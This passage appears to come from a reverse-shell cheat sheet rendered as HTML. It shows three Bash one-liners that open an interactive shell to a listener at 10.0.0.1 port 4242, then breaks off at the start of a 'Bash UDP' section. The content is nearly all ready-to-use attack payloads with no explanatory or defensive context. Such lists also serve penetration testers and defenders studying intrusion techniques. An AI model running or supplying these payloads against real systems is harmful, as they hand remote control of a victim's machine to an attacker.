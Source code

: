 ::: highlight
<pre><span></span><code><a id="__codelineno-0-1" name="__codelineno-0-1" href="#__codelineno-0-1"></a>bash<span class="w"> </span>-i<span class="w"> </span>&gt;<span class="p">&amp;</span><span class="w"> </span>/dev/tcp/10.0.0.1/4242<span class="w"> </span><span class="m">0</span>&gt;<span class="p">&amp;</span><span class="m">1</span>
<a id="__codelineno-0-2" name="__codelineno-0-2" href="#__codelineno-0-2"></a>
<a id="__codelineno-0-3" name="__codelineno-0-3" href="#__codelineno-0-3"></a><span class="m">0</span>&lt;<span class="p">&amp;</span><span class="m">196</span><span class="p">;</span><span class="nb">exec</span><span class="w"> </span><span class="m">196</span>&lt;&gt;/dev/tcp/10.0.0.1/4242<span class="p">;</span><span class="w"> </span>sh<span class="w"> </span>&lt;<span class="p">&amp;</span><span class="m">196</span><span class="w"> </span>&gt;<span class="p">&amp;</span><span class="m">196</span><span class="w"> </span><span class="m">2</span>&gt;<span class="p">&amp;</span><span class="m">196</span>
<a id="__codelineno-0-4" name="__codelineno-0-4" href="#__codelineno-0-4"></a>
<a id="__codelineno-0-5" name="__codelineno-0-5" href="#__codelineno-0-5"></a>/bin/bash<span class="w"> </span>-l<span class="w"> </span>&gt;<span class="w"> </span>/dev/tcp/10.0.0.1/4242<span class="w"> </span><span class="m">0</span>&lt;<span class="p">&amp;</span><span class="m">1</span><span class="w"> </span><span class="m">2</span>&gt;<span class="p">&amp;</span><span class="m">1</span>
</code></pre>
:::

<h3 id="bash-udp">
Bash UDP
</h3>

::: highlight
<pre><span></span><code><a id="__codelineno-1-1" name="__codelineno-1-1" href="#__codelineno-1-1"></a>Victim:
